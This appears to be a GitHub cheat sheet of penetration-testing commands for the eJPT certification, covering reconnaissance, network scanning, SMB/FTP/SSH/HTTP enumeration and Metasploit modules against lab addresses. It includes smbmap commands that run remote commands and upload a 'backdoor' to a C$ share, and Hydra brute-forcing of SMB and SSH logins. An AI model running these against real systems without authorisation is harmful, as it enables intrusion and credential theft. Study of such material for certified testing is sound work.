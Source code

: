 # eJPT
# All needed commands and sources for eJPT


```
fping -a -g 10.10.10.0/24 2> fping.txt
```
# Information Gathering:
## Passive Information Gathering:
https://hackersploit.org/
```
host hackersploit.org
```
```
whatweb hackersploit.org
```
```
whois hackersploit.org
```
#### /Internet Data Mining:
https://www.netcraft.com

#### /DSN Recon:
```
dnsrecon hackersploit.org
```
OR can use: https://dnsdumpster.com 

#### /Addons:
- Built with
- Wappalyzer

#### /WAF (Web Application Firewall):
```
wafw00f hackersploit.org
```
#### /Subdomain Enumeration:
```
sublist3r -d hackersploit.org -e google, yahoo
```
#### /Exploit-DB:
https://www.exploit-db.com/

#### /Email Harvesting With theHarvester:
```
theHarvester -d hackersploit.org -b google,linkedin
```
#### /Leaked Password Databases
https://haveibeenpwned.com/

## Active Information Gathering:

#### /DNS Enum:
```
dnsrecon -d hackersploit.otg
```
```
dnsenum hackersploit.otg
```
#### /DNS lookup
```
dig axfr @nsztm1.digi.ninja hackersploit.otg
```
## Footprinting & Scanning:
#### /Mapping a Network:
```
sudo arp-scan -I tap0 -g 10.10.2.0/24
```
```
fping -I tap0 -g 10.10.2.0/24 -a
```
```
fping -I tap0 -g 10.10.2.0/24 -a 2>/dev/null
```
## Enumeration:
#### /SMB Windows Discover & Mount:
```
nmap -T4 10.10.20.0/20 --open
```
```
nmap -p 445 --script smb-protocols 10.10.20.2
```
```
nmap -p 445 --script smb-security-mode 10.10.20.2
```
```
nmap -p 445 --script smb-enum-sessions 10.10.20.2
```
```
nmap -p 445 --script smb-enum-sessions --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-shares 10.10.20.2
```
```
nmap -p 445 --script smb-enum-shares --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-users --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-stats --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-domains --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-groups --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-enum-services --script-args smbusername=admin,smbpassword=admin 10.10.20.2
```
```
nmap -p 445 --script smb-protocols 10.10.20.2
```
```
smbmap -u guest -p "" -d . -H 10.10.20.2
```
```
smbmap -u admin -p admin -d . -H 10.10.20.2
```
```
smbmap -u admin -p admin -x . -H 10.10.20.2 -x 'ipconfig'
```
```
smbmap -H 10.10.20.2 -u admin -p 'admin' -r 'C$'
```
Upload Backdoor:
```
smbmap -H 10.10.20.2 -u admin -p 'admin' --upload '/root/backdoor' 'C$\backdoor'
```
Download file:
```
smbmap -H 10.10.20.2 -u admin -p 'admin' --download 'C$\flag.txt'
```
```
nmap 10.10.20.3 -p 445 --script smb-os-discovery
```
Metasploit:
```
use auxiliary/scanner/smb/smb_version
```
```
use auxiliary/scanner/smb/smb2
```
```
use auxiliary/scanner/smb/smb_enumshares
```
```
use auxiliary/scanner/smb/smb_login
```
```
use auxiliary/scanner/smb/pipe_auditor
```
nmblookup:
```
nmblookup -A 10.10.20.2
```
smbclient:
```
smbclient -L 10.10.20.3 -N
```
rpcclient:
```
rpcclient -U "" 10.10.20.3
```
enum4linux:
```
enum4linux -o 10.10.20.3
```
Hydra:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.20.3 smb
```
SMBmP:
```
SMBMAP -H 10.10.20.2 -u admin -p admin
```
#### /FTP:

```
nmap 10.10.20.2 -p 21 --script ftp-anon
```
```ftp 10.10.20.3
```
#### /SSH:

```
nmap 10.10.20.3 -p 22 --script ssh2-enum-algos
```
```
nmap 10.10.20.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full
```
```
nmap 10.10.20.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"
```
Hydra:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.20.3 ssh
```
Metasploit:
```
use auxiliary/scanner/ssh/ssh_login
```
#### /HTTP:

```
nmap 10.10.20.3 -sV -p 80 --script http-enum
```
```
nmap 10.10.20.3 -sV -p 80 --script http-headers
```
```
nmap 10.10.20.3 -sV -p 80 --script http-methods --script-args http-methods.url-path=/webdav/
```
```
nmap 10.10.20.3 -sV -p 80 --script http-webdav-scan --script-args http-methods.url-path=/webdav/
```
```
nmap 10.10.20.3 -sV -p 80 -script banner
```
Metasploit:
```
use auxiliary/scanner/http/http_version
```
```
use auxiliary/scanner/http/brute_dirs
```
```
use auxiliary/scanner/http/robots_txt
```
curl:
```
curl 10.10.20.3 | more
```
Wget:
```
wget "http://10.10.20.3/index"
```
```
brows --startup-url 10.10.20.3
```
```
lynx http://10.10.20.3
```
































